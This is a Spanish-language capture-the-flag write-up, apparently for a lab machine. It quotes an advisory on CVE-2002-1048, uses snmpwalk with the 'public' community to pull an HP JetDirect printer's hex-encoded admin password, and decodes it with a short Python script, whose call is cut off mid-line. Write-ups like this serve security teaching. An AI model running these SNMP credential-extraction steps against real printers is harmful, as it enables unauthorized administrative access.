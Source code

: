 
```
A problem with JetDirect printers could make it possible for a remote user to gain administrative access to the printer.

It has been reported that HP JetDirect printers leak the web JetAdmin device password under some circumstances. By sending an SNMP GET request to a vulnerable printer, the printer will return the hex-encoded device password to the requester. This could allow a remote user to access and change configuration of the printer.

C:\>snmputil get example.printer public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

Probando con el OID que nos ha compartido..
```shell
$ snmpwalk -c public -v2c 10.129.250.207 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
¡Nos responde algo!

# Foothold
Como dato, el CVE es [CVE-2002-1048](https://vuldb.com/?source_cve.18962 "Cve")
Del año de la polka...

Con un pequeño script en python
```python
#!/usr/bin/python3
BITS = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

def decode():
    bits = BITS.replace(" ", "")
    result_string = ''.join([chr(int(bits[i:i+2], 16)) for i in range(0, len(bits), 2)])
    print(result_string)
    pass
    
if __name__ == "__main__":
    decode(
```

```shell
$ python3 decode.py 
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGWaA"1&1A5
```

Me dio la sensación de que se habían colado caracteres, por lo cual me quedé solo con la primera fila de hexadecimal
`50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32`

Y ahora tiene mejor pinta.
```shell
$ python3 decode.py 
P@ssw0rd@123!!12
```
